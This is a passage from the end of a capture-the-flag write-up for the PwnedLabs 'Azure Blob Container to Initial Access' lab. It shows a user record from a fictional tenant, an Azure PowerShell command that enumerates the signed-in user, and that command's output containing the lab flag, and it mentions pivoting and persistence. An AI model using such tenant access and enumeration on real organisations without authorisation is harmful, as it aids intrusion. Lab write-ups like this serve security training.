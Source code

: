 ```json
                      "officeLocation":  null,
                      "preferredLanguage":  null,
                      "surname":  null,
                      "userPrincipalName":  "Alice.Garcia@megabigtech.com",
                      "id":  "f78536e6-c5ba-4c4e-ae74-eab2a1a34e96"
                  }
```


This gives us initial access into the Megabigtech Tenant which could allow us to pivot and setup persistence. 

To complete the challenge and get the flag you need to run below:

`Get-AzADUser -SignedIn | fl`

```console
PS C:\Users\Michael\Desktop\scripts-transfer> Get-AzADUser -SignedIn | fl


AccountEnabled                  :
AgeGroup                        :
ApproximateLastSignInDateTime   :
BusinessPhone                   : {}
City                            :
CompanyName                     :
ComplianceExpirationDateTime    :
ConsentProvidedForMinor         :
Country                         :
CreatedDateTime                 :
CreationType                    :
DeletedDateTime                 :
Department                      :
DeviceVersion                   :
DisplayName                     : Marcus Hutch
EmployeeHireDate                :
EmployeeId                      :
EmployeeOrgData                 : {
                                  }
EmployeeType                    :
ExternalUserState               :
ExternalUserStateChangeDateTime :
FaxNumber                       :
GivenName                       : Marcus
Id                              : 41c178d3-c246-4c00-98f0-8113bd631676
Identity                        :
ImAddress                       :
IsResourceAccount               :
JobTitle                        : Flag: 39c6217c4a28ba7f3198e5542f9e50c4
LastPasswordChangeDateTime      :
LegalAgeGroupClassification     :
Mail                            :
MailNickname                    :
Manager                         : {
                                  }
```

And that concludes the 'Azure Blob Container to Initial Access' lab from [PwnedLabs](https://pwnedlabs.io/)!
